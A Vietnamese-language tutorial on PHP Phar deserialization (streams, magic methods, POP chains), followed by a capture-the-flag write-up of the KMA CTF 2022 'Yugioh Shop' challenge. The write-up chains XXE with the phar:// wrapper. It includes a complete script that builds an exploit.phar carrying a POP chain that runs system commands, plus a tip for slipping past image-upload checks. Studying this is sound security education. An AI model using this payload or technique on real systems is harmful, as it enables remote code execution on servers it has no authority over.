# Phar Deserialization
# Kiến thức
## 1. Stream trong PHP
Stream lần đầu được được giới thiệu ở bản PHP 4.3.0 như một cách để khái quát hóa file, network, data compression và các tiến trình khác,... những thứ mà dùng chung một tập hợp functions hoặc cách sử dụng. [Tham khảo](https://www.php.net/manual/en/intro.stream.php)\
Stream cung cấp cho ta quyền truy cập dữ liệu theo yêu cầu. Nghĩa là ta sẽ không cần download toàn bộ nội dung file vào bộ nhớ trước khi quá trình xử lý bắt đầu. Stream sẽ đọc file theo các gói dữ liệu (chunks) và đọc theo 1 cách tuyến tính. Điều này cho phép ta tương tác với các file lớn một cách hiệu quả\
Mỗi stream đều sẽ có một ``implementation wrapper``, các wrapper này cung cấp code bổ sung cần thiết để xử lý các giao thức đặc biệt hoặc phục vụ việc encode. PHP cung cấp cho ta một số wrapper dựng sẳn như:
```php
file://
http://
ftp://
php://
zlib://
data://
glob://
phar://
```
Ngoài ra ta cũng có thể khai báo wrapper cho riêng mình\
Trong bài này ta tập trung vào ``phar://`` để khai thác lổ hỏng Phar Deserialization. Có thể hình dung ``phar://`` dùng để truy cập file Phar và khi truy cập, metadata của Phar file sẽ được unserialized.
## 2. Deserialization vulnerability
Serialization là quá trình chuyển đổi dữ liệu của object thành các stream bytes , hay dễ hiểu hơn là quá trình chuyển dữ liệu thành các chuỗi bits tuần tự để lưu trữ hoặc truyền đi qua mạng. Còn deserialization là quá trình ngược lại\
Ví dụ, ta có đoạn object như sau:
```php
class Student {
        private $name;
        private $age;

        public function __construct($name, $age) {
            $this->name = $name;
            $this->age = $age;
        }
    };

    $nhatduy = new Student('endy', 19);
```
Thự hiện serialize bằng hàm ``serialize()`` cho ta kết quả:
```php
O:7:"Student":2:{s:13:"Studentname";s:5:"enduy";s:12:"Studentage";i:19;}
```
Lỗ hổng Deserialization trong PHP hay còn gọi là PHP Object Injection, lợi dụng cơ chế deserialize của ứng dụng từ đó attakcer sẽ inject một object chứa payload và khi object được deserialize thì payload sẽ được trigger, có thể giúp attacker thực hiện nhiều loại tấn công khác nhau như:  Code Injection, SQL Injection, DoS,… tùy vào từng trường hợp cụ thể\
Để thực hiện khai thác thành công lỗ hổng này trên nền tảng PHP ta cần 2 điều kiện sau:
1. Đối tượng cần tấn công phải có class sử dụng ``Magic method``
2. Tìm được ``POP chain``, hay chính là có thể tùy chỉnh được các đoạn code trong quá trình hàm unserialize() được gọi

## 3. Magic method
Magic method là các function đặc biệt trong các class của PHP, tên của các function này có hai dấu gạch dưới đứng trước, nó sẽ được gọi ngầm ở một sự kiện cụ thể, ví dụ như: __sleep(), __toString(), __construc(), …. Phần lớn trong số các function này sẽ không làm gì nếu không có sự khai báo, thiết lập của người lập trình. Ở đây có hai Magic method có thể trigger được lỗi Phar Deserialization mà ta cần quan tâm đến là:
- ``__wakeup()``:  Được gọi khi một object được deserialize
- ``__destruct()``: Được gọi khi một kịch bản PHP kết thúc hoặc một object không còn được dùng trong code nữa và bị hủy bỏ\
Ví dụ, ta có đoạn code sau:
```php
class Demo {
        public function __destruct() {
            echo "Đang gọi tới destruct method\n";
        }

        public function __wakeup() {
            echo "Đang gọi tới wakeup method\n";
        }
    }

    $demo = new Demo;
    $serial = serialize($demo);
    $unserial = unserialize($serial);
    echo "-------------*----------\n";
```
Output:
```bash
Đang gọi tới wakeup method
-------------*----------
Đang gọi tới destruct method
Đang gọi tới destruct method
```

## 4. POP chain
POP (Property Oriented Programming) nghĩa đen là lập trình hướng thuộc tính, và cái tên này xuất phát từ thực tế, việc kẻ tấn công có thể kiểm soát tất cả các thuộc tính của deserialized object.\
POP chain hay chuỗi các POP hoạt động bằng cách nối các ``gadgets`` lại với nhau để thực hiện một mục đích nào đó của attacker
> "Gadgets": là những đoạn code mượn từ codebase của ứng dụng, được attacker lợi dụng để viết payloads

Ví dụ POP chain:
```php
    class Render {
        protected $file;

        //some code

        public function __construct($file) {
            $this->$file = $file 
        }

        public function __wakeup() {
            $this->$file->open()
        }
    }

    class File {

        //some code

        public function open() {
            fuction_to_open_file() 
        }
    }
```
Ở ví dụ này là đoạn code có chức năng mở file một khi obj Render được deserialized, object ``Render`` sẽ nhận tham số là một object ``File`` và khi ``Render`` được deserialized thì hàm ``__wakeup()`` được gọi, sau đó hàm ``__wakeup()`` gọi tới hàm ``open()`` của ``File``.\
Ta có thể lợi dụng logic này, inject bất kỳ thứ gì ta muốn vào hàm ``open()`` của object ``File``, sau đó serialize nó và gửi cho ứng dụng. Khi ứng dụng deserialize object chứa payload thì đoạn code ta inject vào sẽ được thực thi.

Nói tóm lại thì POP chain sẽ sử dụng magic methods ban đầu để gọi tới một gadget. Gadget này có thể gọi tới một gadget khác. Và ta sẽ thực hiện inject payload vào gadget được gọi tới cuối cùng

## 5. Phar Deserialization
Phar là một file trong PHP, nó tương tự như jar file trong java là một package format cho phép ta gói nhiều các tập code, các thư viện, hình ảnh,… vào một tệp\
Cấu trúc một Phar file gồm có:
- Stub: đơn giản chỉ là một file PHP và ít nhất phải chứa đoạn code sau: ``<?php __HALT_COMPILER()>``;
- A manifest (bảng kê khai): miêu tả khái quát nội dung sẽ có trong file
- Nội dung chính của file
- Chữ ký: để kiểm tra tính toàn vẹn (cái này là tùy chọn, có hay không cũng được)

Điểm ta cần quan tâm là mainfest, là nơi chứa metadata của phar. Nó bao gồm thông tin về archive và từng file bên trong phar. Quan trọng nhất là metadata này được lưu dưới định dạng serialize.



Và khi một filesystem function gọi đến một phar file thì tất cả các metadata trên sẽ được tự động unserialize. Đây chính là logic ta có thể lợi dụng để thực hiện Phar Deserialization

## 6. Khai thác Phar Deserialization
Ta có thể tóm lại cách khai thác qua 3 bước:
- Tìm được POP chain trong source code cần khai thác
- Đưa được Phar file vào đối tượng cần khai thác
- Tìm được entry point, đó là những chỗ mà các filesystem function gọi tới các Phar file do người dùng kiểm soát

Code ví dụ tạo một phar file:
```php

    $serial = serialize($payload_object); // serialize POP chain object

    $phar = new Phar("exploit.phar");
    
    $phar->startBuffering();
    
    $phar->setStub("<?php __HALT_COMPILER(); >");                                                                                      
    
    $phar->setMetadata($serial); //Save custom meta-data into manifest 
    $phar->addFromString("test.txt", "test"); //Add files to be compressed 

    $phar->stopBuffering(); 
```
Ta dùng câu lệnh sau để khởi việc tạo phar file:
```bash
php --define phar.readonly=0 <file_make_phar>.php  //<file_make_phar> là tên file chứa code tạo phar
```

# CTF Practise
## Yugioh Shop (KMA CTF lần 3 năm 2022)
Challenge cho ta một shop để mua card Yugioh, nhưng trước tiên ta cần phải đăng nhập. Nhìn qua form đăng ký, đăng nhập dường như ta không thể exploit được gì



Sau khi đăng ký và login, trang web cho ta giao diện chọn bài để mua:



Khi bấm vào Profile ta được redirect đến trang profile cho phép ta upload ảnh avt


Ta thử upload một ảnh bất kỳ thì được như sau:



Ta thử upload một file shell PHP :



Ta upload thành công tuy nhiên không thể nào trigger được file shell đó, vì 
1. Web đã tự động đổi tên file shell và thay extension thành jpg 
2. khi truy cập đường dẫn mà web cung cấp thì thấy web không gọi trực tiếp tới file shell mà dùng tag ```` với source attribute gọi tới file shell


Quay trở lại trang shop, ta thử bấm vào một card bất kỳ:


Ta để ý thấy phần url có một query string là ``id`` ta thử thực hiện SQLi tại đây

Nhưng sau một hồi loay hoay mình không thể nào SQLi được ở phần này

Mở source lên ngay trang này ta để ý thấy một đoạn code javascript như sau:
```javascript
function buy() {
        data = "<item><name>Exodia</name><price>20000</price></item>";
        var xhr = new XMLHttpRequest();
        xhr.open('POST', 'buy.php', true);
        xhr.setRequestHeader('Content-type', 'text/plain');
        xhr.onload = function () {};
        xhr.onreadystatechange = function() {
            if(xhr.readyState == 4 && xhr.status == 200) {
                alert(xhr.responseText);
            }
        }
        xhr.send(data);
    }
```

Hàm buy() sẽ được gọi khi ta nhấn mua card, khi đó hàm buy  sẽ tạo một ``XMLHttpRequest`` hiển thị nội dung là tên card và giá card:


Ta thử xxe và nhận về được kết quả:



Từ đây ta có thể dùng ``php wrapper`` để đọc source code của web một cách dễ dàng, đầu tiên ta thử đọc source của file ``index.php``:





Từ ``index.php`` ta biết được có ``config.php``\
Từ  ``config.php`` ta biết được có file ``database.php``, ``user.php``, ``utils.php``\
Cộng thêm các đường dẫn ta đã biết trước, ta có thể khái quát source code của web là như thế này:



Source của ``database.php``, ``user.php``, ``utils.php``

``database.php``:
```php
<?php

class Database {
	public $servername;
	public $username;
	public $password;
	public $database;
	public $is_connected;

	function __construct($servername, $username, $password, $database) {
		$this->servername = $servername;
		$this->username = $username;
		$this->password = $password;
		$this->database = $database;
	}

	function connect() {
		$conn = new mysqli($this->servername, $this->username, $this->password, $this->database);
		if ($conn->connect_error) {
		  die("Connection failed: " . $conn->connect_error);
		}
		$this->is_connected = 1;
		return $conn;
	}

	function __wakeup() {
		if (!$this->is_connected) {
			echo "Cannot connect to database: ".$this->database;
		}
	}
}

?>
```

``user.php``
```php
<?php

class User {
	public $username;
	private $password;
	public $avatar;

	public function __construct($username, $password, $avatar) {
		$this->username = $username;
		$this->password = $password;
		$this->avatar = $avatar;
	}

	public function getPassword() {
		return $this->password;
	}

	function __toString() {
		echo "Username: ".$this->username . " - Avatar: ". $this->avatar->url;
	}
}

?>
```
``utils.php``:
```php
<?php

class Utils {
	public $a;
	public $b;
	public $baseDir;

	function __construct() {
		$this->baseDir = dirname(__FILE__);
	}

	function uploadFile($file) {
		$msg = "";
		$is_ok = true;

		$allowed = array('gif', 'png', 'jpg');
		$filename = $file['name'];

		$ext = pathinfo($filename, PATHINFO_EXTENSION);
		if (!in_array($ext, $allowed)) {
		    $msg = 'Only allowed gif, png, jpg';
		    $is_ok = false;
		}

		if ($file["size"] > 1000000) {
		  	$msg = "Sorry, your file is too large.";
		  	$is_ok = false;
		} 


		if ( !getimagesize($file['tmp_name']) ) {
			$msg = "Not a valid image";
			$is_ok = false;
		}

		$file_name = bin2hex(random_bytes(10)).".jpg";
		$target_file = $this->baseDir."/uploads/".$file_name;

		if (move_uploaded_file($file["tmp_name"], $target_file)) {
		    $msg =  "Your avatar stored at: ". $target_file;
		    $is_ok = true;
		} else {
		    $msg = "Sorry, there was an error uploading your file.";
		    $is_ok = false;
		}

		return array($is_ok, $msg, $file_name);
	}

	function __get($key) {
		return ($this->a)($this->b);
	}
}

?>
```

Phân tích 3 file trên ta sẽ thấy xuất hiện một POP chain.
1.  Đầu tiên object ``database`` sẽ gọi tới``__wakeup()`` khi nó được deserialize. Magic method ``__wakeup()`` sẽ echo ra một string và concat object ``database`` với string đó
2. Ta thay object ``database`` bằng object của class ``user``, vì nó được concat với 1 string nên hàm ``__toString()`` của ``user`` sẽ được gọi
3. Khi ``__toString()`` được thực hiện nó sẽ gọi đến ``$this->avatar->url``. Ta thay object ``avatar`` bằng object của class ``utils``
4. Vậy ``$this->avatar->url`` sẽ thành ``$this->utils->url``. Tuy nhiên ``utils`` không có properties nào là url nên magic method ``__get()`` của ``utils`` sẽ được gọi
5. Hàm ``__get()`` gọi đến ``this->$a`` và ``this->$b`` ta hoàn toàn có thể thay đổi 2 biến này để thực hiện RCE

Tuy nhiên web không hề có chức năng nhận data serialize và deserialize data đó. Ta dùng kỹ thuật Phar deserialize để thực hiện exploit.
> Idea: Tạo một object có chứa payload, sau đó lưu object vào metadata của file Phar. Upload file Phar bằng chức năng upload của trang web. Và cuối cùng trigger file Phar bằng php wrapper thông qua lỗi xxe tại trang mua card

Payload object và tạo file Phar:
```php
<?php
//Database class
class Database {
	public $servername;
	public $username;
	public $password;
	public $database;
	public $is_connected;

	function __construct($servername, $username, $password, $database) {
		$this->servername = $servername;
		$this->username = $username;
		$this->password = $password;
		$this->database = $database;
	}


	function __wakeup() {
		if (!$this->is_connected) {
			echo "Cannot connect to database: ".$this->database;
		}
	}
}
//User class
class User {
	public $username;
	private $password;
	public $avatar;

	public function __construct($username, $password, $avatar) {
		$this->username = $username;
		$this->password = $password;
		$this->avatar = $avatar;
	}


	function __toString() {
		echo "Username: ".$this->username . " - Avatar: ". $this->avatar->url;
	}
}

//Utils class
class Utils {
	public $a;
	public $b;
	public $baseDir;

	function __construct() {
		$this->baseDir = dirname(__FILE__);
	}

	function __get($key) {
		return ($this->a)($this->b);
	}
}

$utils = new Utils();
$utils->a = 'system';
$utils->b = "whoami";
$user = new User("123","123", $utils);
$db = new Database("123","123","123",$user);


//Create Phar file
$phar = new Phar("exploit.phar");
    
$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>");                                                                                      //Set stub có thể thêm \xff\xd8\xff để bypass file upload restrictions


$phar->setMetadata($db); //Save custom meta-data into manifest 
$phar->addFromString("test.txt", "test"); //Add files to be compressed 

$phar->stopBuffering(); 
?>
```

Ta có thể thay biến  ``$b`` thành bất kỳ command nào mà ta muốn

Sau đó ta upload file và dùng ``phar://`` để trigger file Phar



Thay ``$a`` bằng ``ls -a`` ta được:


Sau một hồi dò các thư mục ta thấy được file chứa flag:




Dùng ``cat`` để đọc flag
>**FLAG:** KMACTF{fr0m_XXE_t0_ph4r_uNs3ri4l1ze}


## Nguồn tham khảo:
- [https://sec.vnpt.vn/2019/08/ky-thuat-khai-thac-lo-hong-phar-deserialization/](https://sec.vnpt.vn/2019/08/ky-thuat-khai-thac-lo-hong-phar-deserialization/)
- [https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)
- [https://stackify.com/a-guide-to-streams-in-php-in-depth-tutorial-with-examples/](https://stackify.com/a-guide-to-streams-in-php-in-depth-tutorial-with-examples/)
- [https://www.php.net/manual/en/intro.stream.php](https://www.php.net/manual/en/intro.stream.php)
- [https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability](https://pentest-tools.com/blog/exploit-phar-deserialization-vulnerability)
